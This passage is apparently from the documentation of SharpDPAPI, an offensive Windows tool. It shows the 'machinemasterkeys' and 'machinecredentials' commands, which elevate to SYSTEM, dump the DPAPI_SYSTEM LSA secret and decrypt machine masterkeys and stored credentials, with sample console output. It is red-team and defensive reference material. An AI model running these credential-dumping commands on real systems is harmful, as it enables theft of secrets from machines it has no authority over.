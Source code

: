 The **triage** command runs the user [credentials](#credentials), [vaults](#vaults), [rdg](#rdg), and [certificates](#certificates) commands.


### Machine Triage

#### machinemasterkeys

The **machinemasterkeys** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. It will return a set of masterkey {GUID}:SHA1 mappings.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

    C:\Temp>SharpDPAPI.exe machinemasterkeys

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Machine DPAPI Masterkey File Triage

    [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()

    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3


    [*] SYSTEM master key cache:

    {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
    ...(snip)...



#### machinecredentials

The **machinecredentials** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine Credential files.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

    C:\Temp>SharpDPAPI.exe machinecredentials

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Machine DPAPI Credential Triage
